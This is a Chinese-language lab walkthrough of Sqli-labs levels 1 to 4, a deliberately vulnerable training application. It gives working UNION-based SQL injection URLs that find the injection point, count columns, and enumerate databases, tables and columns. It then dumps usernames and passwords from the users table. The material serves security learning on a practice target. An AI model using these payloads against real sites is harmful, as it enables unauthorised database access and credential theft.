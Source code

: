 
# Sqli-labs-less1
![image.png](./assets/1654503299810-ad584fb6-2466-4a89-b2d1-3cb0d356cf67.png)
**查看是否存在注入**<br />http://www.web.com/sql/Less-1/?id=1<br />http://www.web.com/sql/Less-1/?id=1'<br />http://www.web.com/sql/Less-1/?id=1'--+<br />当我们使用?id=1'时报错，说明存在注入点
![image.png](./assets/1654503299766-63948164-2518-4337-aec3-735716cef5f9.png)

**使用order by 查看字段数量**<br />使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3<br />http://www.web.com/sql/Less-1/?id=1' order by 3--+
![image.png](./assets/1654503299782-fbd5ef31-f038-4ea7-a3e1-30f43842c923.png)

**查看哪些数据可以回显**<br />将?id=1改为?id=-1 或者其它不存在的值，使用union注入 且通过order by结果为3 可以得到union select 1,2,3<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,3--+<br />我们看到数据2,3发生回显
![image.png](./assets/1654503299785-1c356b91-14eb-4f3e-818f-7ccba744d2c7.png)

**查看当前版本和数据库**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,version(),database()--+
![image.png](./assets/1654503299823-2efee71b-0e90-4227-b7fc-6764144a0db5.png)

**查看数据库**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,schema_name from information_schema.schemata--+<br />可使用 limit 来改变查询结果<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,schema_name from information_schema.schemata limit 1,1--+
![image.png](./assets/1654503300569-cd95cdca-2e2d-46f6-baef-04696c1b426e.png)

使用limit也不太方便，这里补充一个函数group_concat()将查询的字段数合并一起输出<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+
![image.png](./assets/1654503300589-1430ea90-b3b2-4a85-87f7-cbd3a233eabb.png)
这里我们已经查询到security数据库

**继续查询security库里面的表**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+
![image.png](./assets/1654503300577-0b7ca330-d5f2-4e5c-8f91-0beb423426fc.png)
这里我们已经查询到users表

**继续查询users表里面的字段**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users'--+
![image.png](./assets/1654503300859-43f3220e-9aa6-4ebe-a59b-0e39d4521bf6.png)
这里我们已经查询到username 和password字段

**继续查询username 和password**<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(username,password) from security.users--+
![image.png](./assets/1654503300842-4a0229d6-8771-407a-9ea8-5c4963fb803d.png)
在这里username和password是连接在一起的，我们引入一个函数concat_ws('a',b,c)，他会将b和c之间用a分割<br />http://www.web.com/sql/Less-1/?id=-1' union select 1,2,group_concat(concat_ws('-',username,password)) from security.users--+
![image.png](./assets/1654503302525-fad9df4c-4872-46d8-b2e3-cb4e06efff2d.png)
到此我们就已经拿到所有的用户账号和密码。


# Sqli-labs-less-2
![image.png](./assets/1654503397651-571a876b-6506-4723-94dd-9906bb0950ca.png)
**查看是否存在注入**<br />当我们使用?id=1'时报错，显示多了一个`'`因此得出这一关可直接使用?id=1 来进行注入攻击<br />http://www.web.com/sql/Less-2/?id=1<br />http://www.web.com/sql/Less-2/?id=1'
![image.png](./assets/1654503617991-63e058b5-0c81-452c-89dc-940abaac967d.png)

**使用order by 查看字段数量**<br />使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3<br />http://www.web.com/sql/Less-2/?id=1 order by 3--+
![image.png](./assets/1654503397504-fc7a7548-376a-4230-8393-2cb29bb3deb7.png)
以下步骤与Sqli-labs-Less-1 相同 不进行详细叙述。

注意：<br />在Sqli-labs-Less-1中是?id=1' <br />在Sqli-labs-Less-2中是?id=1


# Sqli-labs-less-3
![](https://img-blog.csdnimg.cn/20200723105441476.png#crop=0&crop=0&crop=1&crop=1&id=rmjED&originHeight=110&originWidth=1017&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看是否存在注入**<br />当我们使用?id=1时没有报错<br />http://www.web.com/sql/Less-3/?id=1<br />![](https://img-blog.csdnimg.cn/20200716111058622.png#crop=0&crop=0&crop=1&crop=1&id=vAl07&originHeight=183&originWidth=521&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用?id=1’时报错，显示我们此处少了一个）<br />![](https://img-blog.csdnimg.cn/20200716111116912.png#crop=0&crop=0&crop=1&crop=1&id=Fvtew&originHeight=169&originWidth=1255&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
因此得出这一关可直接使用?id=1') 来进行注入攻击

**使用order by 查看字段数量**<br />使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3<br />http://www.web.com/sql/Less-3/?id=1') order by 3--+<br />![](https://img-blog.csdnimg.cn/20200716111248116.png#crop=0&crop=0&crop=1&crop=1&id=YAi1q&originHeight=176&originWidth=646&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

**查看哪些数据可以回显**<br />将?id=1改为?id=-1 或者其它不存在的值，使用union注入 且通过order by结果为3 可以得到<br />union select 1,2.3<br />http://www.web.com/sql/Less-3/?id=-1') union select 1,2,3--+<br />我们看到数据2,3发生回显<br />![](https://img-blog.csdnimg.cn/20200716111402229.png#crop=0&crop=0&crop=1&crop=1&id=FoEKw&originHeight=186&originWidth=615&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

以下步骤与Sqli-labs-Less-1 相同 不进行详细叙述。<br />注意：<br />在Sqli-labs-Less-1中是?id=1’<br />在Sqli-labs-Less-3中是?id=1')


# Sqli-labs-Less-4
![](https://img-blog.csdnimg.cn/20200723105509991.png#crop=0&crop=0&crop=1&crop=1&id=ZSNGT&originHeight=105&originWidth=1005&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
**查看是否存在注入**<br />当我们使用?id=1时没有报错<br />http://www.web.com/sql/Less-4/?id=1<br />![](https://img-blog.csdnimg.cn/20200716111646356.png#crop=0&crop=0&crop=1&crop=1&id=AUx3r&originHeight=172&originWidth=441&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用?id=1’时也没有报错<br />![](https://img-blog.csdnimg.cn/20200716111724249.png#crop=0&crop=0&crop=1&crop=1&id=PZa5H&originHeight=169&originWidth=440&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用?id=1’)时也没有报错<br />![](https://img-blog.csdnimg.cn/20200716111756441.png#crop=0&crop=0&crop=1&crop=1&id=qhUDJ&originHeight=170&originWidth=428&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
当我们使用?id=1"时报错，并显示我们此处少了一个）<br />![](https://img-blog.csdnimg.cn/20200716111832585.png#crop=0&crop=0&crop=1&crop=1&id=cYmFM&originHeight=147&originWidth=1281&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
因此得出这一关可直接使用?id=1") 来进行注入攻击

**使用order by 查看字段数量**<br />使用order by 3 没有报错 使用order by 4 发生报错，说明字段数为3<br />http://www.web.com/sql/Less-4/?id=1") order by 3--+

**查看哪些数据可以回显**<br />将?id=1改为?id=-1 或者其它不存在的值，使用union注入 且通过order by结果为3 可以得到<br />union select 1,2,3<br />http://www.web.com/sql/Less-4/?id=-1") union select 1,2,3--+<br />我们看到数据2,3发生回显<br />![](https://img-blog.csdnimg.cn/20200716112039340.png#crop=0&crop=0&crop=1&crop=1&id=UmbyF&originHeight=159&originWidth=623&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

以下步骤与Sqli-labs-Less-1 相同不进行详细叙述。<br />注意：<br />在Sqli-labs-Less-1中是?id=1’<br />在Sqli-labs-Less-4中是?id=1")






